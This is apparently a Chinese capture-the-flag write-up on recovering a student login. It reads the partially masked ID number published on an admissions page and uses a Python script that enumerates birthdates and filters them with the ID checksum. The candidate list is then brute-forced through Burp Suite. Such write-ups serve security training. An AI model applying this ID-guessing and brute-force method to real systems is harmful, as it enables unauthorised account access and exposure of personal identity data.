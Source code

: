 # 身份信息爆破
## 题目破解

通过看到界面，我们需要知道学生的学号及密码才能登陆
![paobo1](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/paobo1.png)


而后我们看到录取信息及学生学籍信息查询系统，点击录取信息，我们可以得知学生的姓名及身份证的一部分信息，有8个数字隐藏
![paobo2](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/paobo2.png)

通过点击学生学籍查询系统，我们可以知道只要输入学生的姓名及身份证就可以得到学生的学号
![paobo3](https://github.com/xiaocheng10/xiaocheng10.github.io/blob/master/image/paobo3.png)


因此通过这个思路，我们可以爆破这8个数字，而且我们还可以通过身份证的验证来排除一些错误的身份证号码，脚本如下：
```
card=[]
for i in range(1990,2000):
    for j in range(1,13):
        for k in range(1,32):
            if(int(j)<=9):
                month="0"+str(j)
            else:
                month=str(j)
            if(int(k)<=9):
                day="0"+str(k)
            else:
                day=str(k)
            a="621022"+str(i)+str(month)+str(day)+"5237"
            card.append(a)

def check(c):
    list1=[7,9,10,5,8,4,2,1,6,3,7,9,10,5,8,4,2]
    crc=[1,0,'X',9,8,7,6,5,4,3,2]
    ca=list(c)
    sum1=0
    num=int(len(ca))-1
    for i in range(0,num):
        sum1=sum1+int(ca[i])*int(list1[i])
    sum1=sum1%11
    if(str(ca[len(ca)-1])==str(crc[sum1])):
        return 1
    else:
        return 0

if __name__=='__main__':
    f=open("result.txt","w")
    for i in range(0,len(card)):
        if(check(card[i])==1):
            d=card[i]+'\n'
            f.writelines(d)
            f.flush()

```

通过生成的字典，将其放在burpsuit中跑即可
